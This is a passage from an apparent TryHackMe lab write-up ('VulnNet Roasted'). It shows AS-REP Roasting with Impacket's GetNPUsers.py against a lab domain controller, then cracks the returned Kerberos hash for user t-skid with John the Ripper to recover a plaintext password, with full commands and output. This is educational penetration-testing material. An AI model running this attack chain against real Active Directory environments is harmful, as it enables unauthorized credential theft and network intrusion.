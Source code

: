 Then, use `GetNPUsers.py` to perform the ************************AS-REP Roasting************************ attack which can check if there are any valid username that don’t require ********************Kerberos pre-authentication******************** enabled:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile usernames.txt -dc-ip 10.10.168.188
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:c3518284d3a39f60305e10c0e7c52131$1541ebd1f06001b3acc630ed2271c4abccf184de1b349ac7e478830c8a318d1a7bac3f921c29fae1404e731acd4e436c4513ceb07eb72af27ec833aa45f3dd819cf34b0647a63d8a4840d5b3475beebf8541a436fce4f6afbca6d02b374208e1b6dddc77029b79f04f0dc0797d1cc4318eb627820291c995a7a8d7a2e1024085d33e95ffc8b8fe664bb14c566c0fe5e8d6b4101fdd020972120136f50cfa1418e1bdb2f1860a620141ff241b2769ebb2bc6f268dec3475885655110e38859e895f1fe87ee7ba2ff0464314c7eb4d7a8c816f956725dde72abba71fcc887ad1d14ec8f408d88e055aeb876f96ace8d882c5f5204bdf9e
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Only user `t-skid` could be found with hash password → Pass the hash into a new file:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ cat user.hash    
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:c3518284d3a39f60305e10c0e7c52131$1541ebd1f06001b3acc630ed2271c4abccf184de1b349ac7e478830c8a318d1a7bac3f921c29fae1404e731acd4e436c4513ceb07eb72af27ec833aa45f3dd819cf34b0647a63d8a4840d5b3475beebf8541a436fce4f6afbca6d02b374208e1b6dddc77029b79f04f0dc0797d1cc4318eb627820291c995a7a8d7a2e1024085d33e95ffc8b8fe664bb14c566c0fe5e8d6b4101fdd020972120136f50cfa1418e1bdb2f1860a620141ff241b2769ebb2bc6f268dec3475885655110e38859e895f1fe87ee7ba2ff0464314c7eb4d7a8c816f956725dde72abba71fcc887ad1d14ec8f408d88e055aeb876f96ace8d882c5f5204bdf9e
```

And use `johntheripper` to crack the hash:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ john -w=/home/kali/Downloads/rockyou.txt user.hash    
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)     
1g 0:00:00:02 DONE (2023-08-10 04:38) 0.4048g/s 1286Kp/s 1286Kc/s 1286KC/s tjallin3..tj021502
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now get back to the SMB Share! `smbclient` does not display the **********************Access Permissions********************** of a specific user to each **********Shared Folder********** (`Disk`):
